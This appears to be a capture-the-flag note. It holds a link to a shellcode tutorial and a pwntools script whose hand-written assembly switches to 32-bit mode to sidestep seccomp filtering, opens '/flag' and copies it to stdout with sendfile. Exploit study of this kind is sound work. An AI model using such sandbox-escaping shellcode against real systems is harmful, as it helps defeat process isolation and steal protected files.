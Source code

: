 write shellcode by hand:   
https://www.cnblogs.com/ZIKH26/articles/15845766.html
asm code:   
```
#!/usr/bin/python3
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=asm('''
mov rsp, 0x1337500
    call to32
    push 0x67
    push 0x616c662f
    mov ebx, esp
    mov ecx, 0
    mov eax, 5
    int 0x80
    mov ebx, 1
    mov ecx, eax
    mov edx, 0
    mov esi, 0x3e8
    mov eax, 0xbb
    int 0x80
to32:
    mov dword ptr [rsp + 4], 0x23
    retf''')
```
